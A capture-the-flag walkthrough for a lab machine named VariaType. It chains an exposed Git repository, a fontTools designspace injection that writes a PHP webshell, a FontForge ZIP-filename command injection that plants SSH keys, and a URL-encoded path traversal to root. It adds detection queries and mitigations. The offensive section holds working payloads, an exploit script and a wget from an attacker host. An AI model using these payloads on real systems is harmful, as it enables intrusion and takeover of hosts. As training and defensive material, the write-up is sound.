










# VariaType

```
Difficulty: Medium
Operating System: Linux
Services: SSH, HTTP
```

## Summary of Attack Chain

| Step | User / Access       | Technique Used                               | Result                                                                                                                 |
| :--: | :------------------ | :------------------------------------------- | :--------------------------------------------------------------------------------------------------------------------- |
|   1  | Local / Recon       | **Nmap Port Scan & VHost Fuzzing**           | Discovered open ports `22` (SSH) and `80` (HTTP); identified virtual hosts `variatype.htb` and `portal.variatype.htb`. |
|   2  | Unauthenticated Web | **Exposed Git Repository**                   | Found publicly accessible `/.git/` directory on the portal and dumped it using **git-dumper**.                         |
|   3  | Local / Analysis    | **Git Commit History Recovery**              | Recovered deleted `gitbot` credentials from unreachable commit objects using `git fsck`.                               |
|   4  | Authenticated Web   | **Portal Login**                             | Successfully authenticated to the validation dashboard using recovered `gitbot` credentials.                           |
|   5  | Authenticated Web   | **CVE-2025-66034 (fontTools XML Injection)** | Uploaded a malicious `.designspace` file that wrote a PHP webshell (`shell.php`) to the server.                        |
|   6  | www-data            | **Web Shell Execution**                      | Triggered the uploaded PHP webshell to obtain initial command execution as `www-data`.                                 |
|   7  | www-data            | **CVE-2024-25082 (FontForge ZIP Injection)** | Crafted a malicious ZIP archive containing a command injection payload embedded in the filename.                       |
|   8  | steve               | **Cron Job Exploitation**                    | A scheduled task running as `steve` processed the ZIP archive, executing the payload and installing an SSH key.        |
|   9  | steve               | **Sudo Privilege Enumeration**               | Discovered that `install_validator.py` could be executed with `sudo` as root without a password.                       |
|  10  | steve               | **URL-Encoded Path Traversal**               | Bypassed path validation using `%2F` encoding to write an SSH key to `/root/.ssh/authorized_keys`.                     |
|  11  | root                | **SSH Key Authentication**                   | Logged in as root using the injected SSH key and retrieved **root.txt**.                                               |





# Offensive Operations

## Reconnaissance

### Nmap Port Scan

```bash
nmap -sC -sV -oN nmap.txt 10.XXX.XX.XXX
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/VariaType/nmap_resultch1.nmap "Nmap Results")


Two open ports: SSH and HTTP. Nmap reported a redirect to `http://variatype.htb/`, indicating virtual host routing is in use.


```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.variatype.htb" -u http://variatype.htb > Subdomain.txt
```

[Subdomain.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/VariaType/Subdomain.txt "Results")




### Virtual Host Setup

```bash
echo "10.10.XX.XXX variatype.htb portal.variatype.htb" | sudo tee -a /etc/hosts
```

Browsing to `http://variatype.htb/` revealed a professional font tooling company website with a Variable Font Generator under `/tools/variable-font-generator`. The second vhost, `portal.variatype.htb`, served an internal validation dashboard protected by a login form.


## Initial Access

### Exposed Git Repository

Checking the portal subdomain for a common misconfiguration:

```bash
curl -s http://portal.variatype.htb/.git/HEAD
ref: refs/heads/master
```

The `.git` directory was publicly accessible. We dumped the full repository using `git-dumper`:


### Recovering Deleted Credentials from Git History

The current `HEAD` showed a commit with message *"security: remove hardcoded credentials"*. The previous state of `auth.php` contained a plaintext credential, which we recovered from unreachable commit objects:

```bash
git log --oneline --all
# 753b5f5 fix: add gitbot user for automated validation pipeline
# 5030e79 feat: initial portal implementation

git fsck --unreachable --no-reflog | grep commit
# unreachable commit XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

git show XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

-$USERS = [
-    'gitbot' => 'G1tB0t_XXXXXX_XXXXX'
-];
+$USERS = [];

```




**Credentials recovered:**

`gitbot : G1tB0t_XXXXXX_XXXXX`

The developer removed the credentials from the current codebase but forgot that Git history is immutable. Unreachable commits persist until a `git gc` prune cycle removes them - often indefinitely on forgotten repositories.

### Portal Login

```bash
curl -s -X POST http://portal.variatype.htb/ -d 'username=gitbot' -d 'password=G1tB0t_XXXXXX_XXXXX' -c cookies.txt -L
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Dashboard   VariaType Validation</title>
  <link rel="stylesheet" href="/styles.css">
</head>
<body>
  <div class="container">
    <header>
      <h1>Validation Dashboard</h1>
      <a href="?logout=1" class="logout">Logout</a>
    </header>

    
    <p style="margin-bottom: 1.5rem; color: var(--text-secondary);">
      Recent font builds from the variable font generator.
    </p>

          <div class="file-list">
        <div class="file-item">No generated fonts found.</div>
      </div>
    
    <div class="footer">
      <p>Files are auto-archived from the main generator pipeline.</p>
    </div>
  </div>
</body>
</html>

```

```bash
cat cookies.txt                                                                                                      

# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

portal.variatype.htb    FALSE   /       FALSE   0       PHPSESSID       XXXXXXXXXXXXXXXXXXXXXXXXXX

```


## Remote Code Execution - CVE-2025-66034

### Vulnerability Background

**CVE-2025-66034** affects fontTools versions 4.33.0–4.60.2. The `varLib` module processes `.designspace` files without sanitising the `filename` attribute of `<variable-font>` elements, allowing an attacker to write the compiled font output to an **arbitrary filesystem path**. Combined with XML injection via CDATA blocks in axis label names, the output file can contain arbitrary content - including PHP code.

The main `variatype.htb` site exposed a Variable Font Generator endpoint that passed uploaded files directly to fontTools server-side.

### Build Minimal TTF Masters

fontTools requires valid TTF source files. We generated the smallest possible valid fonts:

```bash
# font.py
from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def build(name, weight):
    fb = FontBuilder(1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    p = TTGlyphPen(None)
    p.moveTo((0,0)); p.lineTo((500,0))
    p.lineTo((500,500)); p.lineTo((0,500)); p.closePath()
    fb.setupGlyf({".notdef": p.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": "W"})
    fb.save(name)

build("source-light.ttf", 100)
build("source-regular.ttf", 400)

```

```bash
python3 font.py
```

### Craft the Malicious Designspace

The PHP webshell is injected into the axis `<labelname>` via a CDATA block. The output `filename` is set to a PHP-served path on the portal vhost. `__halt_compiler()` is used to prevent PHP from crashing on the binary TTF data that follows the injected code:

```bash
<designspace format="5.0">
  <axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
      <labelname xml:lang="en"><![CDATA[<?php system($_GET["cmd"]); __halt_compiler(); ?>]]></labelname>
    </axis>
  </axes>
  <sources>
    <source filename="source-light.ttf" name="Light">
      <location><dimension name="Weight" xvalue="100"/></location>
    </source>
    <source filename="source-regular.ttf" name="Regular">
      <location><dimension name="Weight" xvalue="400"/></location>
    </source>
  </sources>
  <variable-fonts>
    <variable-font name="MyFont"
      filename="/var/www/portal.variatype.htb/public/files/shell.php">
      <axis-subsets><axis-subset name="Weight"/></axis-subsets>
    </variable-font>
  </variable-fonts>
</designspace>

```

### Upload and Trigger

```bash
curl -s -X POST "http://variatype.htb/tools/variable-font-generator/process" \
  -F "designspace=@malicious3.designspace" \
  -F "masters=@source-light.ttf" \
  -F "masters=@source-regular.ttf"
```

```bash
curl -s -X POST "http://variatype.htb/tools/variable-font-generator/process" \
  -F "designspace=@malicious3.designspace" \
  -F "masters=@source-light.ttf" \
  -F "masters=@source-regular.ttf"


<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Success   VariaType Labs</title>
  <link rel="stylesheet" href="/static/css/corporate.css" />
  <link href="https://rsms.me/inter/inter.css" rel="stylesheet" />
  
</head>
<body>
  <nav class="navbar">
    <a href="/" class="logo">VariaType Labs</a>
    <ul class="nav-links">
      <li><a href="/">Home</a></li>
      <li><a href="/services">Services</a></li>
      <li><a href="/tools/variable-font-generator">Tools</a></li>
    </ul>
    <a href="/tools/variable-font-generator" class="cta-button">Generate Font</a>
  </nav>

  
<section class="section">
  <div class="container">
    <div class="card">
      <div class="alert alert-success">
        Processing completed.
      </div>

      <p>Your variable font is ready.</p>

      <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: flex-start; align-items: center;">
        <a href="/download/7WVbXTPk2dc" class="btn">
          Download Variable Font
        </a>
        <a href="/tools/variable-font-generator"
           style="color: var(--link); text-decoration: underline; font-weight: 500;">
          Generate Another Font
        </a>
      </div>
    </div>
  </div>
</section>


  <div class="footer">
    <p>VariaType Labs © 2025   Professional variable font solutions for designers and developers.<br>
    </p>
  </div>
</body>
</html>                                               

```

**Note:** The response contains binary TTF data before the command output. `__halt_compiler()` stops PHP from erroring on the binary garbage, and `strings` or `tail` can cleanly extract the command output. Full reverse shell or URL-encoding spaces with `+` works cleanly for chaining commands.


**Shell established as `www-data`.**

[exploit.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/VariaType/exploit.py "Results")




## www-data -> steve (CVE-2024-25082)

### Vulnerability Background

**CVE-2024-25082** is a command injection vulnerability in FontForge's ZIP archive handling. When FontForge processes a ZIP file, it extracts entries using their embedded filenames without sanitisation. By embedding shell metacharacters in the ZIP entry filename (specifically `$(...)`), arbitrary commands execute in the context of the FontForge process.

[fontforge.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/VariaType/fontforge.py "Results")

On this machine, a **cron job** ran FontForge as `steve` to periodically validate font files placed in the web-accessible uploads directory - creating a reliable privilege escalation path.





### Generate SSH Keypair

```bash
ssh-keygen -t ed25519 -f ./steve_key -N "" -C "pwn"
```


### Build the Evil ZIP

The ZIP entry filename IS the command payload:

```bash
# zip.py
import zipfile

pub = open("steve_key.pub").read().strip()

cmd = (
    f'x$(mkdir -p /home/steve/.ssh && '
    f'echo "{pub}" >> /home/steve/.ssh/authorized_keys && '
    f'chmod 700 /home/steve/.ssh && '
    f'chmod 600 /home/steve/.ssh/authorized_keys).ttf'
)

with zipfile.ZipFile("evil.zip", "w") as z:
    z.writestr(cmd, b"\x00" * 64)

print(f"[+] evil.zip created  (payload length: {len(cmd)})")


```

```bash
python3 zip.py
[+] evil.zip created  (payload length: 240)

```
[evil.zip](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/VariaType/evil.zip "Results")




### Deliver via Webshell

Serve files from our attack box and pull them onto the target:

```bash
python3 -m http.server 80 &

wget http://10.10.14.209:8888/evil.zip -O /var/www/portal.variatype.htb/public/files/evil.zip
```

### Wait for Cron, then SSH

```bash
ssh -i steve_key steve@10.XXX.XX.XXX

```



## Privilege Escalation 

### Enumeration

```bash
sudo -l
```




Steve can run `install_validator.py` as root with any argument. The script accepts a URL, downloads the content, and writes it to a plugin installation directory. The intended behaviour restricts output to a plugins folder - but the path derivation trusts the URL's path component without decoding it first.

### Vulnerability Analysis

When a URL-encoded absolute path like `%2Froot%2F.ssh%2Fauthorized_keys` is passed, Python's `urllib` decodes `%2F` back to `/` **after** the path restriction check, resolving the write destination to `/root/.ssh/authorized_keys` - a classic URL-decode bypass of path validation.

### Exploitation

**On the attacker machine - generate a root keypair and serve it:**

```bash
ssh-keygen -t ed25519 -f ./root_key -N "" -C "r00t"
```


```bash
2026-03-15 01:36:45,871 [INFO] Attempting to install plugin from: http://10.10.14.209:8889/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-15 01:36:45,883 [INFO] Downloading http://10.10.209:/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-15 01:36:46,480 [INFO] Plugin installed at: /root/.ssh/authorized_keys
[+] Plugin installed successfully.

```

**SSH in as root:**

```bash
ssh -i root_key root@10.XXX.XX.XXX

Last login: Sun Mar 15 06:03:53 2026 from 10.10.XX.XXX
root@variatype:~# cd /root 
root@variatype:~# cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
root@variatype:~# 
```




# Defensive Operations


## Overview

* **1.1 Definition:** A multi-layered attack chain exploiting source code exposure, XML-based arbitrary file write in font processing libraries, cron-driven command injection, and URL-decoding path traversal to achieve full system compromise.
* **1.2 Impact:** Total administrative (Root) takeover of the target host, allowing for arbitrary code execution, persistent access, and data exfiltration.
* **1.3 The Scenario:** The adversary identifies a publicly exposed `.git` directory on a validation portal, extracting unreachable commits to recover hardcoded credentials. Upon authentication, a vulnerable font processing pipeline (fontTools) is exploited to write a PHP webshell via crafted XML. Lateral movement to a local user is achieved by poisoning a ZIP archive processed by a background FontForge cron job. Finally, privilege escalation to root is executed by exploiting a `sudo`-permitted Python script that fails to sanitize URL-encoded destination paths.


## System Architecture

* **2.1 Protocol Environment:** Nginx web server, PHP backend, Python-based font tooling (fontTools, FontForge), Linux Cron daemon, SSH.
* **2.2 Attack Logic Flow:**

> [Exposed .git Repository] -> [Unreachable Commit Credential Recovery] -> [CVE-2025-66034 fontTools XML Injection] -> [RCE as `www-data`] -> [CVE-2024-25082 FontForge ZIP Cmd Injection] -> [SSH Access as `steve`] -> [Python URL-Decode Path Traversal] -> [Root Compromise]

* **2.3 Theoretical Analogy:** The attack sequence relies on a cascade of "nested trust." Each layer of the technology stack Git history retention, XML CDATA parsing, ZIP archive filename extraction, and URL decoding blindly trusts its input. The adversary effectively wraps payloads in acceptable formats, forcing the system to unwrap and execute them in progressively higher privileged contexts.


## Attack Vector

| Attribute                  | Technical Details                                                                                                                                                                                                                                                                    |
| :------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `/.git/HEAD`, `<labelname>` CDATA blocks in `.designspace`, command substitution `$(...)` in ZIP filenames, `%2F` URL-encoded traversal strings.                                                                                                                                     |
| **Critical Vulnerability** | Multiple **input validation failures** across components: `fontTools` trusting XML file paths, **FontForge** expanding shell variables in filenames, and Python `urllib` decoding paths **after validation**.                                                                        |
| **Offensive Action**       | 1. Reconstruct Git repository history.<br>2. Upload malicious `.designspace` mapping payload to `.php` file.<br>3. Deliver ZIP with command execution embedded in filename.<br>4. Pass `%2Froot%2F.ssh%2Fauthorized_keys` to vulnerable Python installer to achieve root SSH access. |


### Prerequisites

* **Access Level:** Unauthenticated HTTP access initially; valid portal credentials (`gitbot`) for initial payload delivery; local user context (`steve`) for final escalation.
* **Connectivity:** HTTP (Port 80) for web exploits and payload staging; SSH (Port 22) for interactive access.
* **Target State:** Presence of `.git` folder in web root; background cron job parsing user-uploaded ZIP files with FontForge; `sudo NOPASSWD` configuration for `install_validator.py`.


## Threat Hunting & Anamoly Analysis

* **Hunt Hypothesis:** Adversaries abusing automated file-processing pipelines will generate abnormal process ancestry. We expect to observe background daemons (e.g., `cron`) spawning application-specific binaries (`fontforge`), which in turn spawn interactive shells (`sh`, `bash`) executing system administration commands (`mkdir`, `chmod`, `echo`).
* **Behavioral Outliers:** 1. A web service account (`www-data`) writing `.php` executable files into a designated static upload directory.
2. A font-rendering binary (`fontforge`) initiating network requests (`wget`/`curl`) or modifying SSH `authorized_keys` files.
3. A Python script executed via `sudo` writing directly to `/root/.ssh/`.
* **Toxic Combinations:** The architectural overlap of a web-writable directory being periodically parsed by a highly privileged or uniquely permissioned user (`steve`), combined with a `sudo` rule that allows arbitrary argument passing to a script that governs file writes.


## Detection Engineering

* **Telemetry Gap Analysis:** * Web Access Logs (HTTP 200 responses for `.git/` objects).
* Process Creation Logs (Sysmon Event ID 1 / Linux Auditd `EXECVE`) mapped to `fontforge` and `python3`.
* File Creation Events (Sysmon Event ID 11) for writes to `/var/www/.../shell.php` and `/root/.ssh/authorized_keys`.
* Sudo Execution Logs (`/var/log/auth.log`).


* **Detection-as-Code (KQL):**

```kql
// Detect abnormal child processes spawning from FontForge or font tooling
DeviceProcessEvents
| where InitiatingProcessFileName in ("fontforge", "python3")
// Look for shell execution or network utilities
| where FileName in ("sh", "bash", "dash", "wget", "curl")
// Filter for suspicious command line arguments related to persistence
| where ProcessCommandLine has_any (".ssh", "authorized_keys", "chmod", "wget http")
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, AccountName

```

* **Resilience Test:** An adversary could evade command line logging by injecting a filename that strictly executes a pre-staged binary without passing arguments (e.g., `$(/tmp/x).ttf`).
* **Sub-Rule:** Implement a strict parent-child process baseline. Flag *any* instance where `fontforge` spawns an executable outside of its standard dependency tree, regardless of the command line arguments.


## Toolkit & Implementation

* **Automation:** `git-dumper` (repository extraction), `python3` (custom `.designspace` and `.zip` payload generation), `curl` (multipart form submission), `ssh-keygen` (key generation for persistence).
* **OPSEC Analysis:** The attack footprint is highly visible on the filesystem. The `.git` dump generates hundreds of web requests. Dropping a webshell (`shell.php`) and a malicious ZIP (`evil.zip`) triggers File Integrity Monitoring (FIM). However, the network traffic for the final escalation remains local (`urllib` fetching the key from the attacker via HTTP, traversing the local path).
* **Post-Exploitation:** The adversary establishes SSH key-based persistence for both `steve` and `root`. This bypasses password-based authentication logs and maintains access even if the `sudo` configuration or vulnerable cron jobs are patched.


## Defensive Mitigation

* **Technical Hardening:**
* **Web Server:** Block access to `.git/` directories globally in the Nginx configuration (`location ~ /\.git { deny all; }`).
* **Application:** Update `fontTools` and `FontForge` to mitigate CVE-2025-66034 and CVE-2024-25082.
* **File System:** Enforce `open_basedir` in PHP to restrict file writes to the upload directory and disable execution within that directory via Nginx.
* **Script Hardening:** Refactor `install_validator.py` to sanitize URLs, strictly enforce destination paths using `os.path.abspath(os.path.join(base_dir, os.path.basename(url)))`, and reject decoded directory traversal strings.


* **Personnel Focus:** Mandate secret scanning in CI/CD pipelines. Establish a strict policy that committed secrets must be mathematically rotated and revoked, not merely removed from subsequent commits, as Git history is immutable.


## Quick Actions

| Step | Objective             | Technical Command / Logic                                                                          |
| :--: | :-------------------- | :------------------------------------------------------------------------------------------------- |
|  01  | **Enumerate Git**     | `curl -s http://portal.variatype.htb/.git/HEAD ; git-dumper http://portal.variatype.htb/.git repo` |
|  02  | **Recover Secrets**   | `git fsck --unreachable --no-reflog \| grep commit ; git show [commit_hash]`                       |
|  03  | **Exploit fontTools** | `curl -X POST -F "designspace=@malicious.designspace" http://portal.variatype.htb/...`             |
|  04  | **Exploit FontForge** | Create ZIP with filename `x$(mkdir -p ~/.ssh && echo [pubkey] >> ~/.ssh/authorized_keys).ttf`      |
|  05  | **Escalate to Root**  | `sudo /usr/bin/python3 install_validator.py 'http://[ATTACKER]/%2Froot%2F.ssh%2Fauthorized_keys'`  |
